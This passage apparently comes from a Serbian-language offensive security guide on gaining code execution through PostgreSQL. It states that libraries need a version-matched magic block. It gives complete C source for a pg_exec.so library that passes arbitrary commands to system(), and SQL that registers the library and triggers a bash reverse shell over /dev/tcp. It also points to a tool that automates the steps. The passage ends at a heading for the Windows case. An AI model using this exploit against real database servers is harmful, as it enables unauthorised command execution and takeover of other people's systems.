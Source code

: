 Od verzije PostgreSQL-a 8.2, proces za napadača da iskoristi sistem je postao izazovniji. Napadač mora ili koristiti biblioteku koja već postoji na sistemu ili otpremiti prilagođenu biblioteku. Ova prilagođena biblioteka mora biti kompajlirana protiv kompatibilne glavne verzije PostgreSQL-a i mora sadržati određeni "magic block". Ova mera značajno povećava težinu iskorišćavanja PostgreSQL sistema, jer zahteva dublje razumevanje arhitekture sistema i kompatibilnosti verzija.

#### Kompajliranje biblioteke

Dobijte verziju PostgreSQL-a sa:

```sql
SELECT version();
PostgreSQL 9.6.3 on x86_64-pc-linux-gnu, compiled by gcc (Debian 6.3.0-18) 6.3.0 20170516, 64-bit
```

Za kompatibilnost je važno da se glavne verzije poklapaju. Stoga, kompajliranje biblioteke sa bilo kojom verzijom unutar serije 9.6.x trebalo bi osigurati uspešnu integraciju.

Da biste instalirali tu verziju na svom sistemu:

```bash
apt install postgresql postgresql-server-dev-9.6
```

I kompajlirajte biblioteku:

```c
//gcc -I$(pg_config --includedir-server) -shared -fPIC -o pg_exec.so pg_exec.c
#include <string.h>
#include "postgres.h"
#include "fmgr.h"

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

PG_FUNCTION_INFO_V1(pg_exec);
Datum pg_exec(PG_FUNCTION_ARGS) {
char* command = PG_GETARG_CSTRING(0);
PG_RETURN_INT32(system(command));
}
```

Zatim otpremite kompajliranu biblioteku i izvršite komande sa:

```bash
CREATE FUNCTION sys(cstring) RETURNS int AS '/tmp/pg_exec.so', 'pg_exec' LANGUAGE C STRICT;
SELECT sys('bash -c "bash -i >& /dev/tcp/127.0.0.1/4444 0>&1"');
#Notice the double single quotes are needed to scape the qoutes
```

Možete pronaći ovu **biblioteku prekompajliranu** za nekoliko različitih verzija PostgreSQL-a, a čak možete i **automatizovati ovaj proces** (ako imate pristup PostgreSQL-u) sa:

{% embed url="https://github.com/Dionach/pgexec" %}

### RCE na Windows-u
